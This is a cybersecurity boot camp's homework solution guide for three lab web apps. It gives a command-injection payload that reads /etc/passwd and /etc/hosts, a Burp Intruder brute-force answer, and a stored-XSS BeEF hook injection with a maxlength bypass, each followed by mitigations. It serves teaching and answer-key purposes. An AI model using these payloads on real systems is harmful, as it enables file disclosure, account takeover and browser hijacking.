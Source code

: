 # Unit 15 Homework Solution Guide

## Web Application 1: *Your Wish is My Command Injection*

You were tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:
   
   - `/etc/passwd`
   
   - `/etc/hosts`
  
   **Hint:** Try testing out a command directly on the command line to help design your payload.

### Solution

The payload to access `/etc/passwd` is  ` 8.8.8.8 && cat ../../../../../etc/passwd`.
  
  - The response should resemble: 
  
    ```
    PING 8.8.8.8 (8.8.8.8): 56 data bytes
    64 bytes from 8.8.8.8: icmp_seq=0 ttl=112 time=10.782 ms
    --- 8.8.8.8 ping statistics ---
    4 packets transmitted, 4 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 10.782/13.324/19.145/3.394 ms
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ........(more records from the /etc/passwd)
    ```


The payload to access `/etc/hosts` is   ` 8.8.8.8 && cat ../../../../../etc/hosts`.
  
  - The response should resemble:

    ```            
    PING 8.8.8.8 (8.8.8.8): 56 data bytes
    64 bytes from 8.8.8.8: icmp_seq=0 ttl=112 time=14.212 ms
    --- 8.8.8.8 ping statistics ---
    4 packets transmitted, 4 packets received, 0% packet loss
    round-trip min/avg/max/stddev = 11.580/13.453/14.394/1.118 ms
    127.0.0.1	localhost
    ::1	localhost ip6-localhost ip6-loopback
    fe00::0	ip6-localnet
    ff00::0	ip6-mcastprefix
    ff02::1	ip6-allnodes
    ff02::2	ip6-allrouters
    192.168.13.25	ab6396809425
    ```
  
**Deliverable:** There are many acceptable mitigations, including server-side input validation and server-side access control on files and directories.


## Web Application 2: *A Brute Force to Be Reckoned With*
 
Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators who accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.

   - Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute-force attack on this web application. 

   - You've been provided with a list of administrators and the breached passwords:

     - [List of Administrators](listofadmins.txt)
     
     - [Breached list of Passwords](breached_passwords.txt)
  
   - Hint: Refer back to the Burp Intruder activity `10_Brute_Force` from Day 3 for guidance.

### Solution

- After using Burp Intruder, the only user/password combination that should work is:
    
    - User:  `tonystark`
    
    - Password: `I am Iron Man`

- After rendering the page for this success record, the message will say: `Successful login! You really are Iron Man :)`

**Deliverable:** There are many acceptable mitigations, including password controls such as password rotation, password lockout, and multi-factor authentication.

## **Web Application 3** : *Where's the BeEF?*

You were tasked with using a stored XSS attack to inject a BeEF hook into Replicants's main website.

- Task details:

  - The page you will test is the Replicants Stored XSS application, which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`.
  - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`.
  - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`.

-  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find a way around this limitation.    
      
  - **Hint:** Try right-clicking and selecting "Inspecting the Element."
    
- Once you are able to hook into Replicants's website, attempt a couple of BeEF exploits. 

### Solution

- The field does not have enough space to fit the entire payload. 

  ![A screenshot displays the XSS message field ](sol1.png)

- In order to add the entire payload, the `message` field length needs to be expanded.

  - *Note that this can also be accomplished using BURP to bypass the client-side limitations.*
  
  - To accomplish this, right-click within the `message` field and select `Inspect Element`.

    ![A screenshot displays the "Inspect Element" field](sol2.png)


- At the bottom of this page, you can find the `message` field HTML parameters.

  - Manually change the `max length` field from 50 to 100.

  ![A screenshot displays the "max length" field](sol3.png)

 
- Return to the origin page and enter the entire payload: `<script src="http://127.0.0.1:3000/hook.js"></script>` and click `sign guestbook`.

- When you return to BeEF, you can see your new browser has been hooked, allowing you to run a variety of BeEF commands.

  ![A screenshot displays the hooked new browser](sol4.png)


**Deliverable:** Users can implement server-side input validation to protect against the XSS attack. Users should have strong endpoint protection to monitor for exploits such as BeEF running within their browser. Additionally, some browsers have built-in controls to protect against BeEf hooking their browsers.

---

© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.
